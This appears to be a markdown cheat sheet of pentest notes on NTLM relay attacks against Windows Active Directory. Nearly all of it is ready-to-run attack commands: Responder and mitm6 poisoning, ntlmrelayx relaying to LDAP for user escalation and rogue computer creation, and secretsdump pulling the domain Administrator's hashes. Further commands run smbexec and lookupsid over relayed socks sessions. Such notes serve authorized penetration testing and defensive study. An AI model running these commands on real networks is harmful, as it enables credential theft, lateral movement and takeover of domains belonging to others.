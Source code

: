 # How To NTLMRelay

## Notes
 - Configure /etc/proxychains.conf to not proxy DNS and use local port 1080:
   `#proxy_dns`
   `socks4 127.0.0.1 1080`   
 - Start ntlmrelayx with options socks:   
   `ntlmrelayx.py -tf targets.txt -smb2support -socks`  
 - Targets (systems without SMB signing) can be gathered with:   
   `crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt`   
 - Try to escalate a given user:   
   `ntlmrelayx.py -t ldap://dc.domain.local --escalate-user USER --remove-mic -smb2support`   
 - Run secretsdump on domain administrator:   
   `secretsdump.py winlab.csnc.ch/hostname$@dc.winlab.csnc.ch -just-dc -just-dc-user Administrator`   
   
 Note: For the poisoning of broadcast messages, run Responder at the same time, but with SMB and HTTP server disabled for Responder. This is not required if you do targeted relaying where you trigger the victims connection to your ntlmrelayx host.   
 - Start Responder.py with SMB and HTTP disabled: (disable them in /root/vkoch/Responder/Responder.conf)   
   `sudo /opt/Responder/Responder.py -I eth1 -w -r -f -d`   

## Using the socks connection
 - Once there is an authenticated socks connection (check with command "socks" in ntlmrelayx console), it can be used with proxychains:   
   `proxychains smbexec.py 'DOMAIN/user:gugus@<target-ip>'`   
   `proxychains secretsdump.py random@100.2.2.2`   
   
- If you relay a machine account:   
   `proxychains smbexec.py 'DOMAIN/MACHINE$:gugus@<target-ip>'`   

## IPv6 DHCP poisoning
- Start rogue DHCPv6, where you specify the domain of your target:   
  `mitm6 -d domain.local`   
- Start ntlmrelayx to e.g. target LDAP on the DC (for querying AD information):   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --no-smb-server -wh attacker-wpad -h`   
## Fake machine account creation
- Start ntlmrelayx targeting a DC to add a computer:   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --add-computer --no-smb-server -wh attacker-wpad -h`   
- Run Responder with DHCP server:   
  `./Responder.py -I eth0 -Pdv`   
- After the new computer was created, you can use this to e.g. query SPNs in the domain:   
  `GetUserSPNs.py 'domain.local/NEWCOMPUTER$' -dc-ip 10.10.0.1`  
Note: Remember to cleanup the computer afterwards! (requires DA)	  

## Open Socks connection with authenticated domain user
- turn off smb and http in Responder.conf and run Responder:   
  `./Responder.py -I eth0`   
- generate relay targets:   
  `crackmapexec smb 192.168.1.0/24 --gen-relay-list relay.txt`   
- Run ntlmrelayx with socks option:   
  `ntlmrelayx.py -tf ./relay.txt -smb2support -socks`   
- set socks proxy in /etc/proxychains4.conf and use proxychains to e.g. lookup sids using the socks connection:   
  `proxychains lookupsid.py DOMAIN/USER@10.10.0.22 -no-pass -domain-sids`   
